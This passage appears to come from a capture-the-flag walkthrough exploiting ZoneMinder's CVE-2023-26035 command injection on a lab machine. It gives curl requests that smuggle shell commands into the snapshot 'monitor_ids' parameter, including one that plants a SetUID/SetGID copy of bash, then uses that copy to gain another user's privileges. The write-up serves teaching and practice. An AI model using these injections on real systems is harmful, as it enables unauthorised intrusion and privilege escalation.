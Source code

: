 
It does seem to change on each request.

[This Feb 2023 post](https://securityonline.info/cve-2023-26035-rce-flaw-in-
open-source-software-application-zoneminder/) gives nice details on the
vulnerability. It is in the snapshot view, where it takes the user input id
and without sanitizing it, makes a command including the id that’s run via
`shell_exec`.

From the [Metasploit exploit](https://github.com/rapid7/metasploit-
framework/blob/master//modules/exploits/unix/webapp/zoneminder_snapshots.rb)
I’ll get the URL and data format.

Testing with a sleep seems to show whatever command is run is run twice:

    
    
    oxdf@hacky$ time curl http://localhost:8888/index.php -d "view=snapshot&action=create&monitor_ids[0][Id]=0;sleep 5&__csrf_magic=${CSRF}"
    
    real    0m10.280s
    user    0m0.005s
    sys     0m0.000s
    oxdf@hacky$ time curl http://localhost:8888/index.php -d "view=snapshot&action=create&monitor_ids[0][Id]=0;sleep 2&__csrf_magic=${CSRF}"
    
    real    0m4.274s
    user    0m0.005s
    sys     0m0.000s
    oxdf@hacky$ time curl http://localhost:8888/index.php -d "view=snapshot&action=create&monitor_ids[0][Id]=0;sleep 1&__csrf_magic=${CSRF}"
    
    real    0m2.296s
    user    0m0.006s
    sys     0m0.000s
    

The output is not returned, so it’s blind, but that’s ok.

#### Shell

To get a shell, I’ll just make a copy of `bash` and set it SetUID/SetGID:

    
    
    oxdf@hacky$ curl http://localhost:8888/index.php -d "view=snapshot&action=create&monitor_ids[0][Id]=0;cp /bin/bash /tmp/0xdf;chmod 6777 /tmp/0xdf&__csrf_magic=${CSRF}"
    

From the shell as matthew:

    
    
    matthew@surveillance:~$ ls -l /tmp/0xdf 
    -rwsrwsrwx 1 zoneminder zoneminder 1396520 Apr 18 20:45 /tmp/0xdf
    

Running with with `-p` returns a shell with effective ids of zoneminder:

    
    
    matthew@surveillance:~$ /tmp/0xdf -p
    0xdf-5.1$ id
    uid=1000(matthew) gid=1000(matthew) euid=1001(zoneminder) egid=1001(zoneminder) groups=1001(zoneminder),1000(matthew)
    